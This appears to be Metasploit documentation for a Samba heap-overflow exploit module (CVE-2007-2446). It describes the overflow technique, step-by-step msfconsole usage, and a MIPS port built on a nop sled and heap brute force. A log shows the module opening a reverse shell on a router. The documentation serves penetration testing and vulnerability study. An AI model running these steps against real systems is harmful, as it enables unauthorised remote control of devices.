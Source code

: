 ## Vulnerable Application

  Samba 3.0.0 through 3.0.25rc3 are vulnerable to mulitple heap overflows. This module targets a heap overflow in the LsarLookupSids RPC call (CVE-2007-2446), causing an overflow in the function lsa\_io\_trans_name().

  The exploit uses the heap overflow to overwrite a function pointer contained in the metadata of the TALLOC memory allocator, a technique which only works on Samba versions 3.0.21-3.0.24.

## Verification Steps

  1. Start msfconsole
  2. Do: `use exploit/linux/samba/lsa_transnames_heap`
  3. Do: `show targets` to see the possible targets
  4. Do: `set target #`
  5. Do: `set rhost`
  6. Do: `exploit`

## MIPS port

  This module was ported to exploit the MIPS architecture. After creating a suitable debugging environment using qemu to emulate Samba on a desktop PC the following steps were required:

### MIPS nop generator

  The exploit uses a heap overflow to put a large nop sled in memory to decrease the accuracy needed in the initial redirection of code flow. A nop sled is a large section of contiguous instructions which do nothing. When code flow is redirected to a nop sled it will continue executing the effectless nops. At the end of the sled the true payload is added and execution will eventually hit this code.

  A nop generator module was created for MIPS by creating a stream of random instructions which create no side-effects e.g. `sll $2, $2, 0`

### Heap address bruteforce

  The exploit uses a brute force approach to minimise problems with unpredictability in heap layout. The exploit itself is run multiple times, each time targetting a different point in the heap with the change of execution flow. If all goes correctly, the nop sled will be hit and code execution will follow. If the nop sled is missed, the Samba process is likely to crash, which is generally not a problem as a new instance is forked for each incoming connection. In the event of a crash, a new heap address is chosen and exploitation is attempted again.

  When porting the exploit to a new system, the approximate heap layout must be known in order to suitably attempt exploitation across all of the possible heap locations. As the MIPS port targetted a specific router, the heap layout was determined by examining the ranges identified in _/proc/<pid>/maps_

## Scenarios

    msf > use exploit/linux/samba/lsa\_transnames_heap
    msf exploit(lsa\_transnames_heap) > set target 7
    target => 7
    msf exploit(lsa\_transnames_heap) > set rhost 192.168.1.1
    rhost => 192.168.1.1
    msf exploit(lsa\_transnames_heap) > show options

    Module options (exploit/linux/samba/lsa\_transnames_heap):

       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       RHOST    192.168.1.1      yes       The target address
       RPORT    445              yes       The SMB service port
       SMBPIPE  LSARPC           yes       The pipe name to use


    Exploit target:

       Id  Name
       --  ----
       7   Linux Heap Brute Force (OpenWRT MIPS)


    msf exploit(lsa\_transnames_heap) > exploit

    [*] Started reverse TCP handler on 192.168.1.3:4444
    [*] 192.168.1.1:445 - Creating nop sled....
    [*] 192.168.1.1:445 - Trying to exploit Samba with address 0x55900000...
    [*] 192.168.1.1:445 - Connecting to the SMB service...
    [*] 192.168.1.1:445 - Binding to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Bound to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Calling the vulnerable function...
    [*] 192.168.1.1:445 - Server did not respond, this is expected
    [*] 192.168.1.1:445 - Trying to exploit Samba with address 0x5590f000...
    [*] 192.168.1.1:445 - Connecting to the SMB service...
    [*] 192.168.1.1:445 - Binding to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Bound to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Calling the vulnerable function...
    [*] 192.168.1.1:445 - Server did not respond, this is expected

    ...Some intermediate attempts ommitted...

    [*] 192.168.1.1:445 - Trying to exploit Samba with address 0x55996000...
    [*] 192.168.1.1:445 - Connecting to the SMB service...
    [*] 192.168.1.1:445 - Binding to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Bound to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Calling the vulnerable function...
    [*] 192.168.1.1:445 - Server did not respond, this is expected
    [*] 192.168.1.1:445 - Trying to exploit Samba with address 0x559a5000...
    [*] 192.168.1.1:445 - Connecting to the SMB service...
    [*] 192.168.1.1:445 - Binding to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Bound to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Calling the vulnerable function...
    [*] Command shell session 1 opened (192.168.1.3:4444 -> 192.168.1.1:4175) at 2016-10-31 14:00:33 +0000

    uname -a
    Linux WNR2200 2.6.15 #1 Mon Dec 23 15:58:24 CST 2013 mips unknown

